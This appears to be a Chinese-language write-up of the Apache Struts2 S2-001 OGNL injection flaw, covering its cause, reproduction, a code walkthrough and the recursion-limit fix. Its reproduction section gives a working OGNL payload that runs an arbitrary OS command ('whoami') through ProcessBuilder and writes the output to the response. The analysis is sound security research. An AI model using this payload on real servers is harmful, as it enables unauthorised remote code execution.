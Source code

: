 # struts-s2-001 代码执行漏洞
1、漏洞名称
漏洞名称：Struts Remote Code Exploit
漏洞编号：Struts2-001
漏洞类型：Remote Code Execution
2、漏洞原理
Struts2 是流行和成熟的基于 MVC 设计模式的 Web 应用程序框架。 Struts2 不只是 Struts1 下一个版本，它是一个完全重写的 Struts 架构。Struts2 的标签中使用的是OGNL表达式，OGNL 是 Object Graphic Navigation Language(对象图导航语言)的缩写，它是一种功能强大的表达式语言，使用它可以存取对象的任意属性，调用对象的方法，使用 OGNL 表达式的主要作用是简化访问对象中的属性值，但Struts2漏洞就源于OGNL。漏洞信息可见https://cwiki.apache.org/confluence/display/WW/S2-001



对ognl表达式的解析方法是通过递归循环的方式进行解析，导致可以对输入形如%{*}的表达式字符串进行解析。

# 漏洞复现
测试poc

%{1+1}
![Pasted image 20230519111956](http://qn.qu1u1.cn/202305191123033.png)


解析表达式，在返回框中返回2

![Pasted image 20230519112036](http://qn.qu1u1.cn/202305191123682.png)



或者直接执行命令 

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
其中whoami可以换其他命令

![[Pasted image 20230519112100.png]]





#  漏洞分析
1、漏洞成因总体概览
该漏洞触发的一个因素之一是在Action执行完成之后，返回“错误”的结果到原先的带有taglib标签的jsp进行渲染，而返回的时候会对字符串进行ognl表达式递归解析。借助一个图更好理解一些

![Pasted image 20230519112140](http://qn.qu1u1.cn/202305191123653.png)

Result配置



我们看看execute方法的内在逻辑



依照struts.xml当execute返回success时，将指向success.jsp,若为error将执行index.jsp，而index.jsp中的代码如下



当其返回到index.jsp时，而jsp中有需要解析渲染的标签，又因为name中的内容为%{1+1},被当成ognl表达式执行。最后返回给index.jsp的name变量。

网上很多文章和论坛在验证这块说是当验证不通过，从而result转向原页面（index.jsp）时候会出现这个漏洞，感觉还是不够严谨，其实无论验证成功或者失败，与结果无关，真正的前提原因是无论转向哪个页面，只要出现解析标签解析输入的时候的变量name（<s:xxxx name="name">），那么payload %{*}将会进入有问题的ognl表达式解析方法中进行解析，从而造成命令执行。验证如下：

修改success.jsp，直接添加了跟index.jsp一样的内容，textfield修改为textarea



根据LoginAction.java其逻辑既

（1）index.jsp输入

（2）LoginAction处理

（3）LoginAction返回success转向success.jsp而非index.jsp原页面



2、 漏洞细节
后面的篇幅过多且复杂，想大概了解直接看最后看粗体字。

关于这段解析的细节，网络上很多文章都有写，从LoginAction到渲染的这段调用太复杂了，这里直接从doEndTag开始讲，力求通俗易懂。

从doEndTag开始分析，主要是因为从上面的漏洞概览上可知，该漏洞是在渲染返回的jsp中的标签的时候触发的。

请求payload



LoginAction处理完结果返回



doEndTag下断点



跟进component.end()



继续跟进evaluateParams



findValue既解析该表达式字符串的值，此处输入的expr的值为%{name}



表达式解析执行



获取name的值



通过getValue对name进行取值



最终返回%{1+1},while循环并未中断%{1+1}再次解析。



若expr为name则取name的值，若为1+1则直接计算其结果，若为其他的payload比如执行命令则直接执行命令。



执行结果





理一理核心关键点

（1）假设输入的是其abc或者2+2字符串，进入解析时候的表达式是%{name},而getValue("name")返回值则是2+2的字字符串，再次进入循环时，被判断不是表达式直接返回给前台（漏洞没有触发）。

（2）若输入的是%{2+2}，进入解析时候的表达式也是getValue("name")，getValue("name")返回的则是%{2+2}，而解析方法由于是循环式的，由于判断该值依然是ognl表达式，则进一步去出2+2传达给getValue，此时的getValue("2+2")，则2+2被当作表达式执行了加法。

参考文章

Struts2 001 漏洞复现&分析 - 0x28 - 博客园

S2-001漏洞复现 - 吟风芥尘 - 博客园

漏洞修复
public static Object translateVariables(char open, String expression, ValueStack stack, Class asType, TextParseUtil.ParsedValueEvaluator evaluator, int maxLoopCount) {
        Object result = expression;
 
        while(true) {
            int start = expression.indexOf(open + "{");
            int length = expression.length();
            int x = start + 2;
            int count = 1;
 
            while(start != -1 && x < length && count != 0) {
                char c = expression.charAt(x++);
                if (c == '{') {
                    ++count;
                } else if (c == '}') {
                    --count;
                }
            }
            if (loopCount > maxLoopCount) {
                // translateVariables prevent infinite loop / expression recursive evaluation
                break;
            }
            int end = x - 1;
            if (start == -1 || end == -1 || count != 0) {
                return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);
            }
 
            String var = expression.substring(start + 2, end);
            Object o = stack.findValue(var, asType);
            if (evaluator != null) {
                o = evaluator.evaluate(o);
            }
 
            String left = expression.substring(0, start);
            String right = expression.substring(end + 1);
            if (o != null) {
                if (TextUtils.stringSet(left)) {
                    result = left + o;
                } else {
                    result = o;
                }
 
                if (TextUtils.stringSet(right)) {
                    result = result + right;
                }
 
                expression = left + o + right;
            } else {
                result = left + right;
                expression = left + right;
            }
        }
    }
这里增加了对OGNL递归解析次数的判断，当解析完一层表达式后，如图，此时loopCount > maxLoopCount，从而执行break，不再继续解析%{1+1}，默认情况下只会解析第一层：

if (loopCount > maxLoopCount) {
                // translateVariables prevent infinite loop / expression recursive evaluation
                break;
}
